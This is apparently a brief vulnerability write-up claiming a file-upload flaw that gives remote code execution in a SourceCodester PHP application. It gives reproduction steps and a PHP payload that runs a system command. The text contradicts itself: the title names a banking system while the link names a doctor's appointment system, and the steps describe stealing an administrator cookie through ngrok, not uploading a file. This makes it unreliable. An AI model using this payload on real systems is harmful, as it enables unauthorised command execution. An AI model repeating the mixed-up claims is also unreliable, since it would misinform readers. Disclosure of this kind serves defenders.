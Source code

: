 # Tittle: Online Banking System (File Upload to RCE)

## Author: (B3nj1)

### Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)

### Software Link: [Doctor's Appointment System](https://www.sourcecodester.com/php/14467/simple-doctors-appointment-system-using-phpmysql-source-code.html)

### Version: 1.0

## CVE: 
-  **Description:** Doctor's Appointment System 1.0 is vulnerable to File Upload to RCE via Image upload from the administrator panel. An attacker can obtain remote command execution just by knowing the path where the images are stored.


### Steps to reproduce:
- 1- Go to [http://localhost/banking/client/?page=user](http://localhost/banking/client/?page=user)
- 2- Edite your profile name and paste the payload
- 3- Using a ngrok http server to get the request with the administrator cookie


### Payload
```php
<?php
echo system('whoami');
echo "\nFunciona";
?>
```
